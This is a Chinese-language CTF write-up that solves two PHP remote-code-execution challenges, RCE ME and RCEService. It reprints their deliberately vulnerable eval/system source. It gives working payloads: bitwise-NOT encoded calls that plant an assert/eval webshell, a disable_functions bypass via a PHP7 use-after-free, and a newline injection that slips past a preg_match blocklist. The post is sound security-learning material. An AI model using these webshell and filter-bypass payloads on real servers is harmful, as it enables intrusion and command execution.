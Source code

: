 ```yaml
---
layout: post
title:  RCE
date:   2021-07-22 00:01:01 +0300
image:  2021-07-22-candle.jpg
tags:   [ctf,web,RCE]
---
```


RCE(remote command/code execute)，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

### [极客大挑战 2019]RCE ME

```assembly
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

过滤了`所有英文字母和数字`，但是我们知道ASCII码中还有很多`字母数字之外的字符`，利用这些字符进行**取反**或**异或**可以得到我们想要的字符

> PS：取ASCII表种非字母数字的其他字符，要注意有些字符可能会影响整个语句执行，所以要去掉如：反引号，单引号

```
<?php
echo urlencode(~"phpinfo");
```

`%8F%97%8F%96%91%99%90`

因为是取反，所以还要再次取反，而且要加分号。

`?code=(~%8F%97%8F%96%91%99%90)();`

在phpinfo查看禁用的系统函数

| Directive         | Local Value                                                  | Master Value                                                 |
| ----------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| disable_functions | pcntl_alarm,<br>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl | pcntl_alarm,<br/>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,<br/>pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,<br/>pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,<br/>exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,<br/>link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl |

构造一个shell连上蚁剑

```assembly
<?php

error_reporting(0);
$a = 'assert';
$b = urlencode(~$a);
echo $b;
echo "\n";
$c = '(eval($_POST[melody]))';
$d = urlencode(~$c);
echo $d;
```

`%9E%8C%8C%9A%8D%8B
%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6`

`/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6);`

连接蚁剑后，看到根目录下存在flag和readflag文件，应该是通过执行readflag来读取flag。但是无法读取flag，考虑到rce，又禁用那么多系统函数。利用PHP7的UAF，通过蚁剑的绕过disable_functions来执行。选择PHP_GC_UAF，点击开始。cd到根目录，执行`./readflag`

flag{3c7b1b32-998c-4bdf-bd3c-9a28ca47ca42}

### [FBCTF2019]RCEService

题目给了源码

```assembly
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

过滤的很严，但是可以绕过preg_match函数本身

第一种方法：因为preg_match只会去匹配第一行，所以这里可以用多行进行绕过

源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

cat命令在/bin中保存

所以构造出payload，%0A是换行符

```assembly
{ %0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

不知道为什么不能直接在表单框里输入，要在url中输入。

`?cmd={ %0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

flag{34edc62e-623e-4380-8be6-3252086e72aa}